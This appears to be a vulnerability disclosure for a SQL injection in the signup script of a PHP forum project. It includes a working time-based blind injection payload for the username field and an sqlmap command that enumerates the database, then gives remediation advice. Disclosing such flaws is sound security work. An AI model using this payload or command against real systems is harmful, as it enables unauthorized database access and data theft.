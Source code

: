 # CVE
CVE-poc
### Issue Type

SQL Injection

## Root Cause

A SQL injection vulnerability has been identified in the /signuppost.php file in the “Technical Forum Using PHP Source Code” project. The vulnerability stems from the fact that an attacker can inject malicious code via the login username parameter and use that parameter directly in a SQL query without validation. This allows an attacker to spoof input values to manipulate SQL queries and perform unauthorized actions.

### Impact

An attacker can exploit this SQL injection vulnerability to gain unauthorized access to a database, disclose sensitive data, tamper with data, completely control the system, or even disrupt services, posing a serious threat to system security and business continuity.

## Vulnerability Details and POC

Vulnerability Name: Username Parameter

```
Payload
Parameter: Username (POST)
Type: Time Blind Injection Time Blind Injection
Title: Time Blind Injection Time Blind Injection
Payload: username=admin' AND (SELECT 9335 FROM (SELECT(SLEEP(5)))NwOL) AND 'SGvn' = 'SGvn'
Screenshot of the specific information obtained when testing and running the sqlmap utility
```
![image](https://github.com/user-attachments/assets/cbaf25e7-b4e1-41f7-9475-f14564b2810c)
```
//sqlmap
python sqlmap.py -r url.txt --level 1 --risk 1 --current-db --current-user --is-dba
```

### Suggested fixes

Using preprocessing statements and parameter binding
Preprocessing statements prevent SQL injection by separating the SQL code from the user input data. When using preprocessing statements, user-entered values are treated as pure data and are not interpreted as SQL code.

Input Validation and Filtering
Strictly validate and filter user input data to ensure that it conforms to the expected format.

Minimize Database User Privileges
Ensure that accounts used to connect to the database have the minimum necessary privileges. Avoid using accounts with higher privileges (e.g. “root” or “admin”) for day-to-day operations.

Conduct regular security audits
Conduct regular code and system security audits to identify and fix potential security vulnerabilities in a timely manner.

By following these recommendations, you can greatly improve the security of your applications and reduce the risks associated with SQL injection vulnerabilities.
